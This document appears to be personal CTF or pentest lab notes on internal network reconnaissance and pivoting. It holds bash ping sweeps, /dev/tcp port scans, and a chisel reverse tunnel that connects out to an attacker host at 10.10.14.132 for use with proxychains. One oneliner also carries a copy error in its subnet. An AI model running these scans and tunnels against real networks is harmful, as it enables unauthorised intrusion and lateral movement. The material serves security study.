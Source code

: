 Oneliner versions
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

![](pingsweepresult.png)

Identifying other boxes on the network.
- arp cache for IPv4 resolution

Oxdf better one liners 
```bash
# The reason I copy and paste these is the output is better handled 
# it is done in the background
# Errors are visible
for i in $(seq 1 254); do (ping -c 1 172.18.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done

for i in $(seq 1 254); do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done                    
```

Fingerprinting without nmap, etc using brain and cli. 

Port scanning with bash and /dev/tcp  
```bash
for port in 22 25 80 443 8080 8443; do (echo Hello > /dev/tcp/172.19.0.3/$port && echo "open - $port") 2> /dev/null; done

for port in 22 25 80 443 8080 8443; do (echo Hello > /dev/tcp/172.18.0.1/$port && echo "open - $port") 2> /dev/null; done
```

The output for command above
![1000](port80on3.png)

Ippsec inspired reverse pivot excalidraw-ing
![1080](ippsecreversepivotpowerpoint.excalidraw)

Ippsec discuss reducing the size of go binaries
```bash
# Remember if you compile for another system
# On target machine:
ldd --version # linux and windows
CGO_ENABLED=0 go build -ldflags="-s -w" # For static without c runtime libraries
# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation 
upx chisel
```

Improved cli
```bash
# Setup proxychains and chisel
# Added -host over 0.0.0.0 default which is expose to the internet
./chisel server -host 127.0.0.1 -p 9000 --reverse -v
# 
# 0xDF notes that the .2-4 address randomise for www,nodered and redis
targetIP= # the IP we want to target only accessible from nodered.
targetPORT= # the port we what to view from the portscan

./chisel client 10.10.14.132:9000 R:127.0.0.1:9001:$targetIP:$targetPORT
proxychains nmap -sT -F 
```
